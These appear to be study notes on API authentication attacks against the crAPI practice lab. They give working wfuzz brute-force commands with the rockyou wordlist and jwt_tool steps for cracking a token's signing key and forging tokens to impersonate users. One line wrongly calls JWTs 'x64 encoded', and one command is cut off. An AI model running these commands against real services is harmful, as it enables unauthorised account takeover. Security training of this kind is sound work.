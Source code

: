 # Authentication Attacks

#### Classic Authentication Attack

- use Burp Suite to capture a login
- open intruder in Burp Suite
- can set payload 1 to be full of emails
- set payload 2 to be passwords
- start attack
- "Bad Credentials" in the response section is indicative that we can brute force

#### wfuzz

can be used to brute force a target

- wfuzz -d '{Insert Post Body Here}' -H 'Content-Type: application/json' -z file,/usr/share/wordlists/rockyou.txt -u http://127.0.0.1:8888/identity/api/auth/login --hc 500
  - wfuzz -d '{"email":"user@email.com","password":"PASSWORD"}' -H 'Content-Type: application/json' -z file,/usr/share/wordlists/rockyou.txt -u http://127.0.0.1:8888/identity/api/auth/login --hc 500
  - wfuzz -d

#### jwt_tool

- an open-source toolkit for testing JSON Web Tokens (JWTs), designed to automate the process of discovering and exploiting common vulnerabilities in JWT implementations. It provides functionalities for brute-forcing keys, tampering with token claims, and automatically detecting token signing algorithms.
- jwt_tool {insert token here} -C -d crAPIpw.txt
  - This finds the key. This can be used to create our own trusted tokens
- We can then go to `jwt.io` to modify our token using this key and whichever changes we wish to make such as email.
- We can then use that token to authenticate to the target user
- Attempt to automatically scan against an application:
  - $jwt_tool eyJhbGci... -t http://crapi.apisec.ai -M pb

#### Notes

// Can use Burp Suite Sequencer to determine a predictible token generation process of an application, then use the gained information to craft requests in Burp Suite Intruder.

- JWT (JSON Web Token) structure: x64 encoded, separated in 3 parts by periods: Header, Payload, Signature.
  - `jwt.io`

- Creating password file:
  - crunch 5 5 -o crAPIpw.txt
